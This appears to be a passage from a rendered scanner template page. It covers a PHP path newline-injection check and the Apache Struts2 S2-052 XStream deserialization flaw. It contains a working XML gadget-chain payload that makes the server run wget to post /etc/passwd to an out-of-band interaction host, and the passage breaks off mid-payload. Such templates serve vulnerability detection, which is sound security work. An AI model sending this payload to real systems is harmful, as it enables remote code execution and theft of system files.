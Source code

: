 ```
```

### Step - 2

```
GET /{{randstr}}.php\x0A HTTP/1.1
Host: {{Hostname}}
Accept-Encoding: gzip,deflate
Accept: */*

```

### Matchers

**Type - dsl**

- dsl
  1. contains(body_2, "{{randstr_1}}")

---

# Apache Struts2 S2-052 - Remote Code Execution

## Description

- The REST Plugin in Apache Struts 2.1.1 through 2.3.x before 2.3.34 and 2.5.x before 2.5.13 uses an XStreamHandler with an instance of XStream for deserialization without any type of filtering, which can lead to remote code execution when deserializing XML payloads.
- severity - high
- tags - cve,cve2017,apache,rce,struts,kev

## Requests

- Method - POST
- Method - POST

### URL

- {{BaseURL}}/struts2-rest-showcase/orders/3
- {{BaseURL}}/orders/3
  - <map>
      <entry>
        <jdk.nashorn.internal.objects.NativeString>
          <flags>0</flags>
          <value class="com.sun.xml.internal.bind.v2.runtime.unmarshaller.Base64Data">
            <dataHandler>
              <dataSource class="com.sun.xml.internal.ws.encoding.xml.XMLMessage$XmlDataSource">
                <is class="javax.crypto.CipherInputStream">
                  <cipher class="javax.crypto.NullCipher">
                    <initialized>false</initialized>
                    <opmode>0</opmode>
                    <serviceIterator class="javax.imageio.spi.FilterIterator">
                      <iter class="javax.imageio.spi.FilterIterator">
                        <iter class="java.util.Collections$EmptyIterator"/>
                        <next class="java.lang.ProcessBuilder">
                          <command>
                            <string>wget</string>
                            <string>--post-file</string>
                            <string>/etc/passwd</string>
                  <string>{{interactsh-url}}</string>
                          </command>
                          <redirectErrorStream>false</redirectErrorStream>
                        </next>